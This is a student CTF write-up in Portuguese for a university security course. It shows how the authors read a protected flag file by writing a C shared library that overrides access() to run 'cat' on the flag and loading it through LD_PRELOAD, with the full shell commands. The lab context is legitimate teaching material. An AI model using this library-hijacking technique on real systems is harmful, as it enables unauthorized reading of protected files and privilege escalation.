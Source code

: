 #Linux Environment CTF

Começamos por correr o comando indicado para nos conectarmos ao servidor:

```bash
$ nc ctf-fsi.fe.up.pt 4006
```
Estando conectados, utilizamos o comando ls para ver os ficheiros do diretorio e encontramos o seguinte:

![](../pictures/ctf4ls.png)

Acreditando que admin_note.txt seria uma pista, decidimos ver o que ele continha.

![](../pictures/admin_note.png)

Graças a essa dica, fomos à pasta /tmp e após tentar criar um ficheiro percebemos que esta era a unica pasta que nao é read-only.

Sendo capazes de criar ficheiros, percebemos que existe a possibilidade de  fazer o que aprendemos no SEED labs da semana 4. Voltamos entao à pasta /flag_reader e procuramos nos seus ficheiros alguma chamada a um comando Linux. Encontramos o seguinte no ficheiro
"main.c":

![](../pictures/catmain.png)

Existe uma chamada ao comando "access".

O nosso objetivo passou entao agora a ser criar um programa chamado "access" capaz de ir buscar a bandeira ao ficheiro a qual nós nao temos acesso e transferi-la para um ficheiro de texto ao qual nós tenhamos acesso.

```bash
$ cd /tmp
$ touch exploit.c
$ echo "#include <fcntl.h>" > exploit.c
$ echo "#include <stdio.h>" >> exploit.c
$ echo "#include <stdlib.h>" >> exploit.c
$ echo "#include <unistd.h>" >> exploit.c
$ echo "#include <sys/types.h>" >> exploit.c
$ echo "int access(const char *pathname, int mode){" >> exploit.c
$ echo "    system(\"/usr/bin/cat /flags/flag.txt > /tmp/result.txt\");" >> exploit.c
$ echo "    return 0;" >> exploit.c
$ echo "}" >> exploit.c
```

Os seguintes comandos criam exatamente esse programa. Mas só criando o programa nao fazemos com que o servidor corra o nosso em vez do original. Temos entao que alterar as variaveis de ambiente para que o corra. Para isso começamos por correr o seguinte comando:

```bash
$ gcc -fPIC -g -c exploit.c
```
Este irà gerar um ficheiro "exploit.o" a partir da compilaçao do ficheiro "exploit.c" capaz de ser utilizado numa libraria partilhada. De seguida corremos:

```bash
$ gcc -shared -o exploit.so exploit.o -lc
```

Gerando assim uma livraria partilhada "exploit.so" a partir do ficheiro "exploit.o" e ligando-a a "libc", uma livraria de C.

De seguida criamos um ficheiro "env" que indica que a variavel de ambiente "LD_PRELOAD" deve ser buscada a exploit.so:

```bash
$ echo "LD_PRELOAD=/tmp/exploit.so" > env
```

Por fim, alteramos as permissoes do ficheiro "result.txt" para que todos os utilizadores consigam ler, escrever e executar:

```bash
$ chmod 777 result.txt
```

Por fim, acedemos a "result.txt", coletamos a bandeira e entregamos em ctf-fsi.fe.up.pt, verificando assim que estava correta.
